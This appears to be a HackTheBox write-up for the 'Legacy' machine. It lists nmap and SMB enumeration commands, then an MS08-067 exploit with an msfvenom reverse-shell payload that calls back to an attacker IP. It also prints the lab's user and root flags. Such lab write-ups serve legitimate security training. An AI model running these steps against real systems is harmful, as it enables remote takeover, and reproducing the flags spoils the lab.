

# legacy 

## Reconnaissance

### nmap (light)
```
nmap -sC -sV -oN nmap/egacy2 10.129.227.181
```


### nmap (heavy)
```
nmap -sV -T4 -p- -oN legacy_all 10.129.227.181
```


### NetBIOS and SMB

- Scan netbios service (port 139)
```
nmap -sV -T4 --script nbstat.nse -p139 -pN -n -oN legacy_nbt 10.129.227.181
```


- Scan SMB service by enum script (port 445)
```
nmap --script "safe or smb-enum-*" -p445 -oN legacy_smb 10.129.227.181
```
- Result first part 


- Second part, show some information about service


- Third part, it show some possible vuln


- Show the possible shares 


- Show some OS information


- Focus on scanning vuln 
```
nmap --script "smb-vuln-*" -p445 -oN legacy_smb3 10.129.227.181
```
- It shows the vulnerability for ms08-067


- The vulnerability for ms17-010


- Searchsploit for MS17-010


- Searchsploit for MS08-067


- crackmapexec command for smb service 
```
crackmapexec smb 10.129.227.181 -u '' -p '' --shares
```


- smbclient for null user


- smbclient without password


- smbclient 


#### Information from enum4linux-ng
- Target Information & Listener Scan on target


- NetBIOS Information


- SMB Dialect Check 


- Domain Infomation from SMB 


- RPC Related & Domain Information from RPC


- OS Information from RPC


- Users Information and Group Information from RPC 


- Shares ,Policy and Principle Information from RPC 


## Exploit 

- Research the exploit for ms08_067, the following information are very useful
- [(GITHUB)ms08_067 - Exploit Code - README](https://github.com/rayhan0x01/reverse-shell-able-exploit-pocs/blob/master/ms08-067.md)
- [(GITHUB)ms08_067 - Exploit Code - 2](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py)
- Generate shellcode by msfvenom
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.17.145 LPORT=1337 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -v shellcode -f c -a x86 --platfomr windows
```


- Copy the shellcode to replace the one in``` ms08_067.py```


- Execute the exploit code 


- Check the listener, it will get the reverse shell


- user flag
```
e69af0e4f443de7e36876fda4ec7644f
```

- root flag
```
993442d258b0e0ec917cae9e695d5713
```


## Second Method 

> From others writeup and the nmap result, this lab also can be exploited by ms17_010

## Reference 

- [(HackTrick)SMB](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)
- [(HackTrick)SMB-2](https://hacktricks.boitatech.com.br/pentesting/pentesting-smb)
- [(HackTrick)MSRPC](https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc)
- [(HackTrick)MSRPC-2](https://hacktricks.boitatech.com.br/pentesting/135-pentesting-msrpc)
- [(GITHUB)ms08_067 - Exploit Code](https://github.com/andyacer/ms08_067)
- [(GITHUB)ms08_067 - Exploit Code - README](https://github.com/rayhan0x01/reverse-shell-able-exploit-pocs/blob/master/ms08-067.md)
- [(GITHUB)ms08_067 - Exploit Code - 2](https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py)
- [Metasploit Basics for Beginners – Exploiting Windows XP (MS08–067) with Metasploit (Kali Linux) – Part 1](https://www.getastra.com/blog/security-audit/how-to-hack-windows-xp-using-metasploit-kali-linux-ms08067/)
- [Exploit Eternal Blue (MS17–010) for Windows XP with custom payload](https://infosecwriteups.com/exploit-eternal-blue-ms17-010-for-windows-xp-with-custom-payload-fabbbbeb692f)
- [(GITHUB)ms17-010 - Exploit Code - 1](https://github.com/worawit/MS17-010)
- [(GITHUB)ms17-010 - Exploit Code - 2](https://github.com/a6avind/MS17-010)
- [(GIThUB)ms17-010 - Exploit Code - 3](https://github.com/3ndG4me/AutoBlue-MS17-010)
- [Windows Privilege Escalation Fundamentals](https://fuzzysecurity.com/tutorials/16.html)
- [(HackTrick)Windows Local Privilege Escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)


###### tags: `HackTheBox` `Easy` `Windows` `ms08_067` `ms17_010` `SMB` `445`
